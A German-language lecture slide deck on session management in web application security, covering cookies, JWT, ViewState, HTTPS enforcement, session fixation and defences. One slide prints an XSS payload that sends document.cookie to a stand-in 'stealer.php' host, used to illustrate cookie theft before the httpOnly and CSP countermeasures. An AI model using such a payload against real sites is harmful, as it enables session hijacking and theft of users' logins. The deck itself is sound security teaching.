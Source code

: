 ```yaml
---
author: Andreas Happe
title: Web Application Security
--- 
```


# Session Management

## Warum Session-Management?

* Etablierung einer Benutzeridentität über mehrere Requests hinweg
* HTTP selbst ist stateless
* Session wird zumeist über Cookies oder Tokens gebaut

## Session-Ablauf

* Während des Logins wird ein neues Session Token/Cookie generiert
* Bei jedem Folge-Zugriff wird über dieses Token an den Server übertragen
* Die Benutzeridentität wird geprüft
* Beim Logout wird das Token im Browser gelöscht und am Server als inaktiv vermerkt
* Logout aller Sessions sollte möglich sein

## Client vs. Server-Side Session

## Client-Seitig

* Direktes Speichern der Daten im Cookie
* Integrität und Confidentiality muss durch Applikation sichergestellt werden
* Serverseitiges Invalidieren von Sessions schwer möglich

## Server-Seitig

* server-seitig: Random Key (Session ID) im Cookie
* Server-Datenbank über die der Random-Key einem Benutzer zugeordnet wird
* Möglichkeit der Session-Invalidation
* Keine sensiblen Daten innerhalb der Client-Cookies


# Session Möglichkeiten 

## Cookie-based Sessions

* Cookie wird durch den Server gesetzt
* Cookie wird bei jedem Request automatisch durch den Browser mit übertragen
* Möglichkeit des Session-Timeouts und optionale Security-Flags

## Client-Side: JWT

* JSON Web Token: Token-Format inkl. Integritätsschutz
* Server überträgt signiertes Token an Client
* Das Token enthält Zugriffsberechtigungen
* Sollte Datenbankabfragen am Server beim Zugriff vermeiden
* Analog zu Kerberos

## JWT: für Sessions?

![Picture](0x05_jwt_sessions.png){.stretch}

## ViewState

* ViewState beschreibt die Sicht des Client
  * beinhaltet z. B. noch nicht am Server gespeicherte Daten
  * Teilweise als State-Model (welche Aktionen kann der User durchführen)
* Client schickt den ViewState bei jeder Operation mit (HTML hidden form)
* Bei jeder Operation vergleicht der Server ob der ViewState passt

## Viewstate: Security

* Client- oder Server-Seitig Möglich
* Server-Seitig:
  * sehr analog zu einer server-seitigen Cookie-Session
* Client-Seitig: 
  * ViewState muss integritätsgeschützt werden
  * ViewState sollte verschlüsselt werden
  + Wenn StateModel: erschwert Angriffe

# Probleme

## Problem: Session-ID wird verloren

* Verwendung von unverschlüsselten HTTP

![Picture](0x05_session_hijacking.JPG){.stretch}

## Wie kann HTTPS erzwungen werden

* Cookie mit Secure-Flag: Cookie wird nur mittels HTTPS übertragen
* HSTS: Browser macht ein upgrade auf HTTPS bei Folgezugriffen
* CSP: Browser macht ein upgrade auf HTTPS bei Folgezugriffen

Beispiele eines HTTP Response mit gesetzten Header:

``` http
Strict-Transport-Security: max-age=31536000; includeSubDomains
Set-Cookie: CookieName=Wert; path=/; secure
```

## Warum ist ein automatic redirect zu HTTPS nicht ausreichend?

## Problem: Mixed-Content

* Cookie Drive-By, um 2010/2011 herum
* nur Login wird mit HTTPS geschützt
* Rest der Seite mittels HTTP

## Tool: Firesheep

![Picture](0x05_firesheep.png){.stretch}

## Mixed-Content: Current Situation

* Mittlerweile: active mixed-content wird by default geblockt
* Chrome will Download von "gefährlichen" Inhalten mittels HTTP unterbinden

## Problem: Session-ID vorher-bestimmbar

* Angreifer darf Session-ID nicht erraten können
* Schlechte Ideen:
  * aufsteigende Zahlen
  * MD5 auf die Systemzeit
* Immer einen guten Zufallszahlengenerator verwenden
* Entropie-Check der Session-Id

## XSS Lücke

* Annahme: die Webapplikation hat eine XSS-Lücke

![Picture](0x05_session_hijack_xss.png){.stretch}
  
## Beispiel XSS Extraction

```html
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
```

## Lösung für XSS-Lücke

* keine XSS Lücken implementieren
* httpOnly-Flag bei Session Cookies setzen
* CSP verwenden

```
Set-Cookie: CookieName=Wert; path=/; HttpOnly
```

## Problem: Session-ID als GET-Parameter

* wird dadurch in Proxies, Caches, etc. gespeichert
* auch in Browser Historie
* Lösung: Verwendung eines Session-Cookies
* Work-Around: Verwendung von POST Requests

## Problem: Session-Fixation

* Nicht Vorbestimmen der Session, sondern Erzwingen einer Session-ID
* Operation mit Session als HTTP GET Parameter
* Social Engineering

## Problem: Session-Fixation

![Picture](0x05_session_fixation.jpg){.stretch}

* Lösung: Session-ID während Login neu generieren
* Hint: Session bei Logout löschen ist optional

# Recap

## Recap: Session-Management

* serverseitige Sessions verwenden
* SessionId während Login neu setzen
* SessionId während Logout löschen
* Immer/ausschließlich HTTPS verwenden
* Session-Timeouts und Security-Flags verwenden
* SessionId mit kryptographischen Zufallsgenerator erstellen

## Fin
